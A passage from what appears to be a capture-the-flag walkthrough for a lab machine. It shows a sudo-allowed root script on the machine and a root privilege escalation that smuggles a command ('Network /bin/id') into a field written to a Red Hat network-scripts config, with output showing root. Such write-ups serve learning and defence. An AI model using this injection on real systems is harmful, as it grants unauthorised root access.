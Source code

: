 As user guly we have a sudo privilege.

```bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

The script is this one.

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

We can try to inject commands, but nothing of that will work because of the regex filter. If we search about **network-scripts w**e will find the following post [https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) which tells how you can execute commands as root using this directory.

Basically the following input will allowus to execute commands as root.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
Network /bin/id
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test^H^H^H
wrong input, try again
interface BROWSER_ONLY:
tes
interface BOOTPROTO:
test
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
```
